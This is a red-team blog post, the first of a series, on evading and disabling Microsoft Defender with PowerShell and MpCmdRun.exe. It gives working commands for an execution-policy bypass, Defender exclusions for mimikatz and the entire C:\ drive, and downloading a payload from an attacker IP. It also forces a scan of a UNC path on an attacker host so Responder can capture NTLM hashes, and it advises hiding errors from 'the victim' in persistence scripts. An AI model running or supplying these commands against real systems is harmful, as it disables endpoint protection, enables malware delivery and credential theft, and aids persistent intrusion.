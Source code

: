 ```yaml
---
author: "Jann Moon"
title: "Defender Defeated - Part I: On Casting Dark Fogclouds"
description: "Armaments in the eternal war against Microsoft's Persistant Anti-Virus for Offsec Wizards."
tags: ["AV Bypass", "Defender", "Powershell", "Red Team"]
date: 2023-07-09
thumbnail: floral8.jpg
---
```


In the beginnings of my journey to unravel the secrets of penetration testing, I'd eagerly attempted to execute a new tool or test a simple malware I had crafted; though a dormant watchful antagonist would be waiting in darkness, snatching my executable and casting it into the void.  Meekly, this foe would ping a quiet and often-ignored notification in the bottom-right corner of the screen.

Some days, I would turn to the venerable oracles at VirusTotal and ask them to analyze a file for me.  As I presented the file, it quickly became a recurring theme that only one of the guardians, known as Microsoft Defender, would raise its vigilant flag when confronted with my altered and obfuscated creations.  While frustrating, I couldn't help but admire the tenacity of Microsoft Defender, which pushed me to take a deeper dive into obfuscation techniques and AV-bypass than I otherwise would have.  Defebder was omnipresent in the Windows realm, making it a familiar hurdle on almost every target.  

Getting to this point took a lot of experimentation, scouring obscure scrolls of knowledge hidden within online forums, analyzing source code of many great open-source tools and reading what many talented practiotioners have written into articles and tutorials for free, blessing both sides of the infosec community.

## Rules for Finding Successful Bypasses

 Almost any guide that details a specific set of steps to take rarely works.  Whoever wrote the guide has done most of the hard work for the AV vendor by proving a map for reverse engineering their executable.  This is possibly one of the main things that anti-virus vendors do - scour the internet for information and add signatures to their databases.  I'd say *especially* if the guide is about "Microsoft Defender Bypasses", as they want to catch what MS Defender doesn't and include that information in their marketing and webinars.

 Even combining multiple popular obfuscation tools takes work.  If it isn't caught by AV, it is commonly because the malware got too obfuscated to know what it is supposed to do, while you keep staring and waiting in your terminal. 

 ![Just blinking and breathing...](waitingforshell.png)

I had the most success with writing my own tools for obfuscation, or at least modifying semi-obscure ones, followed by using a proprietary tool intended to protect code from being stolen - though it works just as great for casting smoke bombs into enemy workstations.  Since I can't spell out my exact steps for consistent Defender deception, as they'd be useless by the time you read this article, here are some "features, not vulnerabilities" to get to the same destination.

## Execution Policy Bypass

The first barrier you might hit, especially if you are just grabbing scripts from Github and running them, is the "Execution Policy" settings preventing you from doing what you want. My most used technique is the following:

```ps
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
```

However, different techniques are blocked on different computers for various reasons, though this one works about 80% of the time.  If you need to try a handful, this great article by NetSPI shows 15 different ways to get around this.
[NetSPI's Bypass Execution POlicy Methods](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)


## Add-MpPreference

This tool is bundled with Defender, so should be present on all Microsoft workstations.  The tool provides a way to run Defender's functions through the command-line or automate workflows by using it in a script.  Interestingly enough, the arguments used to bypass your paylaods from being scanned are not mentioned on the official Microsoft Defender documentation pages for using "Add-MpPreference", only mentioned once on another page without explaining how to do so. 

[Defender Documentation for mpcmdrun.exe](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/command-line-arguments-microsoft-defender-antivirus?view=o365-worldwide)

Here is how you can add a path to be excluded from Defender scans, since the Microsoft forgot to write about it.

```
PS > Add-MpPreference -ExclusionPath "C:\Temp\mimikatz.exe" -AttackSurfaceReductionOnlyExclusions "C:\Temp\mimikatz.exe"
```

You can run the executable if Powershell is unavailable.  It is located at `%ProgramFiles%\Windows Defender\MpCmdRun.exe` or `C:\ProgramData\Microsoft\Windows Defender\Platform\<antimalware-platform-version` depending on the version of Defender.

This versatile tool can also download remote files.  When a tool can do so much, its hard to remember all the features, as they also forgot to mention this one as well.


```ps
PS > .\MpCmdRun.exe -DownloadFile -Url http://10.10.10.10/sweetvirus.exe -Path C:\Temp\sweettrustedfile.exe
```

Another cool unintended use for the tool, is to trigger a scan on a remote file on the attacker's machine (or non-existent file works as well), to allow Responder to steal the Net-NTLM hash for a Pass-The-Hash attack.

*Shout out to this great guide by snovvcrash for enlightening me* [Github-PPN](https://github.com/snovvcrash/PPN)

```cmd
C:\ > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```

## Exclusionary Protection Spells via Powershell

To cripple Defender's power reach, you can also set the entire fielsystem as an excluded path.  With a Powershell session running, enter the following commands. 

```powershell
 Add-MpPreference -ExclusionPath "C:\"
 Add-MpPreference -ExclusionProcess "C:\"

```
If you plan to include these within a script that runs on boot for persistent shell access, include `-ErrorAction SilentlyContinue` to hide any errors from the victim's screen.

Hopefully, this article has helped you fast-forward to the part of your hacking journey where Microsoft Defender is a footnote to remember when building and modifying shells and other malicious executables just a little bit faster.  This first part of the "Death of Defender" arc deals with sidestepping and using blindspots to avoid Defender; in the second part, I will teach you how to extinguish its life force by pulling the plug at its roots.  Thanks for reading!
